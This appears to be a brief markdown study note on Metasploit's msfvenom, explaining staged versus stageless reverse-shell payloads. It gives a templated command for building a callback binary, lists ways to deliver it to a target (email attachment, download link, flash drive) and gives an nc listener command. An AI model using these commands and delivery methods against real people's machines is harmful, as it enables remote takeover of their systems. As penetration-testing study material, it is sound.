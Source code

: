 # Practicing with Msfvenom

- The command:
	- `msfvenom -l payloads`
	- lists all the the available payloads.
	- The list of payloads almost starts with the OS of the target
	- They are described by`staged` or `stageless`.

- #### Staged vs Stageless Payloads 
	- ###### Staged: 
		- Staged payloads create a way to send over more components of the attacks.
		- the payload `linux/x86/shell/reverse_tcp`, when run using the exploit module in metasploit, the payload wo;; send a small stage that will be executed on the target and then call back to the attacker machine to download the remainder of the payload over the network.
			- then executes the shellcode to establish a reverse shell.
	
	- ###### Stageless:
		- Stageless payloads do not have a stage. 
		- Example:
			- payload: `linux/zarch/meterpreter_reverse_tcp`
			- Using an exploit module in metasploit, this payload will be sent in its entirely across a network connection without a stage.
			- This could benefit in environments where the attacker don't have the access to much bandwidth and latency can interfere.
			
- ### Build A Stageless Payload:

	- `msfvenom -p <payload> LHOST=<Ip_add> LPORT=<port> -f <file_type> > <filname.<extension>>`

	- ##### Call MSFvenom:
		- `msfvenom`
			- Defines the tool used to make the payload.
		- `-p` 
			- This option indicates that msfvenom is creating a payload.
		- `<payload>`
			- choose the payload based on the architecture
		- `Address To connect back to`
			- when executed the payload will call back to the specified IP on the specified port.
		- `-f <file_type>`
			- the -f flag specifies the format the generated binary will be.
		- `> <filename.extension>`
			- creates an binary file which can be send to someone via any medium.

- ### Executing a Stageless Payload
	- Email message with the file attached
	- Download Link on a website
	- Combined with a Metasploit exploit mode
	- Via flash drive.
- ##### Nc Connection
	- `nc -lvnp <port>`
